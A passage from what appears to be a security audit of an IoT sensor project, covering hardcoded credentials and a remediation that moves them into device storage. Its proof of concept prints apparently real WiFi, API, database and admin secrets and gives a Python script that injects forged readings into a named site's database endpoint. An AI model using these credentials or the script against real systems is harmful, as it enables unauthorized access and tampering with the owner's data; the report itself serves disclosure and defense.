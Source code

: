 ```
   [Device] Access device via admin/admin

4. Full system compromise achieved
```

### Proof of Concept

**Extracting Credentials from Source Code:**
```bash
# Clone repository
git clone [repo-url]

# Search for hardcoded credentials
grep -r "password" src/
grep -r "api_key" src/
grep -r "apiKey" src/

# Results:
# WiFi: "2.4" / "P1rates15"
# API Key: "tPmAT5Ab3j7F9"
# DB: "WinWinLabs2025!!"
# Admin: "admin" / "admin"
```

**Using Extracted Credentials:**
```python
import requests

# Use hardcoded API key to inject data
data = {
    'api_key': 'tPmAT5Ab3j7F9',
    'data': [
        {'sensor_id': 'ATTACKER', 'reading_value': 999}
    ]
}

response = requests.post(
    'http://ecoforces.com/update_db.php',
    data=data
)
print(response.text)  # Data injected successfully
```

### Remediation

**IMMEDIATE (Week 1):**
```cpp
// BEFORE: Hardcoded
String wifiSSID = "2.4";
String wifiPassword = "P1rates15";

// AFTER: Load from secure storage
#include <Preferences.h>
Preferences preferences;

void setup() {
    preferences.begin("secure-cfg", true);
    String wifiSSID = preferences.getString("wifi_ssid", "");
    String wifiPassword = preferences.getString("wifi_pass", "");
    preferences.end();
}

// Provisioning via secure channel (BLE, WPS, or secure web interface)
void provisionDevice(String ssid, String password) {
    preferences.begin("secure-cfg", false);
```